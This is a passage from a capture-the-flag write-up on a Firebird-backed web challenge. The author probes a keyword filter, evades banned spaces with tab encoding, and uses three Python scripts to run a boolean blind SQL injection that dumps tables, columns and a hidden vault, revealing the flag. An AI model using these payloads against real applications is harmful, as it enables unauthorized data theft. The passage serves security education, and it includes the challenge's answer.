QL_BIG_RESULT","SQL_BIG_SELECTS","SQL_BIG_TABLES","SQL_CALC_FOUND_ROWS","SQL_LOG_OFF","SQL_LOG_UPDATE","SQL_LOW_PRIORITY_UPDATES","SQL_SELECT_LIMIT","SQL_SMALL_RESULT","SQL_WARNINGS","SQLCA","SQLCODE","SQLERROR","SQLEXCEPTION","SQLSTATE","SQLWARNING","SQRT","SSL","STABLE","START","STARTING","STATE","STATEMENT","STATIC","STATISTICS","STATUS","STDDEV_POP","STDDEV_SAMP","STDIN","STDOUT","STORAGE","STRAIGHT_JOIN","STRICT","STRING","STRUCTURE","STYLE","SUBCLASS_ORIGIN","SUBLIST","SUBMULTISET","SUBSTRING","SUCCESSFUL","SUM","SUPERUSER","SYMMETRIC","SYNONYM","SYSDATE","SYSID","SYSTEM","SYSTEM_USER","TABLE","TABLE_NAME","TABLES","TABLESAMPLE","TABLESPACE","TEMP","TEMPLATE","TEMPORARY","TERMINATE","TERMINATED","TEXT","TEXTSIZE","THAN","THEN","TIES","TIME","TIMESTAMP","TIMEZONE_HOUR","TIMEZONE_MINUTE","TINYBLOB","TINYINT","TINYTEXT","TO","TOAST","TOP","TOP_LEVEL_COUNT","TRAILING","TRAN","TRANSACTION","TRANSACTION_ACTIVE","TRANSACTIONS_COMMITTED","TRANSACTIONS_ROLLED_BACK","TRANSFORM","TRANSFORMS","TRANSLATE","TRANSLATION","TREAT","TRIGGER","TRIGGER_CATALOG","TRIGGER_NAME","TRIGGER_SCHEMA","TRIM","TRUE","TRUNCATE","TRUSTED","TSEQUAL","TYPE","UESCAPE","UID","UNBOUNDED","UNCOMMITTED","UNDER","UNDO","UNENCRYPTED","UNION","UNIQUE","UNKNOWN","UNLISTEN","UNLOCK","UNNAMED","UNNEST","UNSIGNED","UNTIL","UPDATE","UPDATETEXT","UPPER","USAGE","USE","USER","USER_DEFINED_TYPE_CATALOG","USER_DEFINED_TYPE_CODE","USER_DEFINED_TYPE_NAME","USER_DEFINED_TYPE_SCHEMA","USING","UTC_DATE","UTC_TIME","UTC_TIMESTAMP","VACUUM","VALID","VALIDATE","VALIDATOR","VALUE","VALUES","VAR_POP","VAR_SAMP","VARBINARY","VARCHAR","VARCHAR2","VARCHARACTER","VARIABLE","VARIABLES","VARYING","VERBOSE","VIEW","VOLATILE","WAITFOR","WHEN","WHENEVER","WHERE","WHILE","WIDTH_BUCKET","WINDOW","WITH","WITHIN","WITHOUT","WORK","WRITE","WRITETEXT","X509","XOR","YEAR","YEAR_MONTH","ZEROFILL","ZONE"]
for i in sqlwords:
    if session.get(f"http://instances.challenge-ecw.fr:42583/api/search?id={i}").text != '{"status":"badword"}':
        print(i)
    time.sleep(0.1)
```

After filtering the usable ones, it gives this list :

```
ABS
ABSOLUTE
ADD
AGGREGATE
ALIAS
ALSO
ALWAYS
ARE
ARRAY
AS
ASC
ASSERTION
BOOL
BOTH
BREAK
BROWSE
CASE
CEIL
CHAR
CHARACTER
CHARACTERS
CHECK
COLLECT
COLUMN
COLUMN_NAME
COLUMNS
CONDITION
DATABASE
DELAYED
ELSE
ELSEIF
END
EXCEPT
EXIT
FETCH
FIELDS
FOR
FROM
IF
LIMIT
MATCH
NO
OFFSET
ON
ONLY
OUT
OUTER
ROW
SELECT
STRICT
TABLE
TEXT
THEN
WAITFOR
WHEN
WHERE
WHILE
WITH
WITHOUT
SLEEP
```

We can see that there is `SELECT` and `CASE`, this will maybe be intersting.

After trying some payloads without any results, I decided to simply google the hint we found earlier in xml. Fire and a bird : `firebird`.

Bingo, that's the name of a database. This database has a diferent querry structure than SQL. So, I built it in local.

Let's try to exploit the webiste.

## Exploitation

I think that the backend runs something like

```sql
SELECT answer FROM xxxx WHERE id={id}
```
So, I built the payload

```sql
(SELECT FIRST 1 SKIP {} CASE SUBSTRING(RDB$RELATION_NAME FROM {} FOR 1) WHEN '{}' THEN 3 ELSE 1 END FROM RDB$RELATIONS)
```

Let's explain a bit the payload :

```
fireburd                    ->          sql         | explaination
FIRST                       ->          LIMIT       | return only the first n rows
SKIP                        ->          OFFSET      | start at nth row
SUBSTRING(str FROM x FOR n) -> SUBSTRING(str, x, n) | get the part of str from x letter to x+n letter
```

`RDB$RELATIONS` is the schema table and `RDB$RELATION_NAME` contains all table names 

To inject it without spaces (there are banned), I used `%09`.

So, it gives the python script

```py
import requests

port = 42583
session = requests.Session()
url = f"http://instances.challenge-ecw.fr:{port}/api/search?id="

to_test = "$RBDMONACEFGHIJKLPsQTUVWXYZ_abcdefghijklmnopqrstuvwxyz"
payload = "(SELECT FIRST 1 SKIP {} CASE SUBSTRING(RDB$RELATION_NAME FROM {} FOR 1) WHEN '{}' THEN 3 ELSE 1 END FROM RDB$RELATIONS)".replace(" ", "%09")

# arg1 -> offset
# arg2 -> pos_char a tester
# arg3 -> char a tester

all_names = []
try:
    for i in range(100):
        print(f"OFFSET {i}")
        pos_char = 1
        name = ""
        j = 0
        while j < len(to_test) and not (name.startswith("MON$") or name.startswith("RDB$")):
            # MON$ and RDB$ are tables created by system
            payload_fait = payload.format(str(i), str(pos_char), to_test[j])
            complete_url = f"{url}{payload_fait}"
            print(f"Getting : {complete_url}")
            req = session.get(complete_url)
            print(req.text)
            if req.text.startswith('{"status":"ok","id":3,'):
                print(f"Found letter : {to_test[j]}")
                name += to_test[j]
                j = 0
                pos_char += 1

            else:
                j += 1
        print(name)
        all_names.append(name)
except KeyboardInterrupt:
    pass

print(all_names)
```

The script can be found [here](scripts/get_tables.py)

After waiting 5 min, and closing the program, I get an `all_names` like that

```
['RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'RDB$', 'MON$', 'MON$', 'MON$', 'MON$', 'MON$', 'MON$', 'MON$', 'MON$', 'MON$', 'RDB$', '', '', 'RDB$', '', 'RDB$', '', 'MON$', 'HIDDEN_VAULT', '', '', '', '', '']
```

We can see an intersing table `HIDDEN_VAULT`.

Let's get all collumns (of all tables), I identified in local that I can skip the first 450 collumns because I'm sure there are all from the system.

```py
import requests

port = 42583
session = requests.Session()
url = f"http://instances.challenge-ecw.fr:{port}/api/search?id="

to_test = "$RBDMONACEFGHIJKLPSQTUVWXYZ_abcdefghijklmnopqrstuvwxyz01234567890"
payload = "(SELECT FIRST 1 SKIP {} CASE SUBSTRING(RDB$FIELD_NAME FROM {} FOR 1) WHEN '{}' THEN 3 ELSE 1 END FROM RDB$RELATION_FIELDS)".replace(" ", "%09")

# arg1 -> offset
# arg2 -> pos_char a tester
# arg3 -> char a tester

all_names = []
skip_first = 450
try:
    for i in range(100):
        print(f"OFFSET {i}")
        pos_char = 1
        name = ""
        j = 0
        while j < len(to_test) and not (name.startswith("MON$") or name.startswith("RDB$")):
            payload_fait = payload.format(str(i + skip_first), str(pos_char), to_test[j])
            complete_url = f"{url}{payload_fait}"
            print(f"Getting : {complete_url}")
            req = session.get(complete_url)
            print(req.text)
            if req.text.startswith('{"status":"ok","id":3,'):
                print(f"Found letter : {to_test[j]}")
                name += to_test[j]
                j = 0
                pos_char += 1

            else:
                j += 1
        print(name)
        all_names.append(name)
except KeyboardInterrupt:
    pass

print(all_names)
```


The script can be found [here](scripts/get_fields.py)

After waiting another 5 min, and closing the program, I get an `all_names` like that

```
['RDB$', 'RDB$', 'SEC$USER', 'SEC$USER_TYPE', 'MON$', 'MON$', 'MON$', 'MON$', 'ID', 'DATA', 'ID', 'SENTENCE', 'ANSWER', '', '', '', '', '', '']
```

The field `DATA` seems interesting. Let's dump it.

```py
import requests

port = 42583
session = requests.Session()
url = f"http://instances.challenge-ecw.fr:{port}/api/search?id="

to_test = "{}$RBDMONACEFGHIJKLPSQTUVWXYZ1._abcdefghijklmnopqrstuvwxyz0234567890@&()#,:"
payload = "(SELECT FIRST 1 SKIP {} CASE SUBSTRING(DATA FROM {} FOR 1) WHEN '{}' THEN 3 ELSE 1 END FROM HIDDEN_VAULT)".replace(" ", "%09")

# arg1 -> offset
# arg2 -> pos_char a tester
# arg3 -> char a tester

all_names = []
skip_first = 2
try:
    for i in range(100):
        print(f"OFFSET {i}")
        pos_char = 1
        name = ""
        j = 0
        while j < len(to_test) and not (name.startswith("MON$") or name.startswith("RDB$")):
            payload_fait = payload.format(str(i + skip_first), str(pos_char), to_test[j]).replace("&", "%26").replace("#", "%23").replace(":", "%3A")
            complete_url = f"{url}{payload_fait}"
            print(f"Getting : {complete_url}")
            req = session.get(complete_url)
            print(req.text)
            if req.text.startswith('{"status":"ok","id":3,'):
                print(f"Found letter : {to_test[j]}")
                name += to_test[j]
                j = 0
                pos_char += 1

            else:
                j += 1
        print(name)
        all_names.append(name)
except KeyboardInterrupt:
    pass

print(all_names)
```

The script can be found [here](scripts/get_data.py)

After waiting 20 min, and closing the program, I get an `all_names` like that

```
['ECW{Wow.Thi5.i5.N0t.Th3.fL4g}', 'ECW{Ouch.Th1s.15.N0t.Th3.Fl4g}', 'ECW{F1reb1rd.1s.N0t.A.M0z1ll4.Pr0ducT.4nym0re}', 'ECW{Erf.Th1s.1s.N0t.Th3.Fl4g}']
```

And here is the flag `ECW{F1reb1rd.1s.N0t.A.M0z1ll4.Pr0ducT.4nym0re}`.
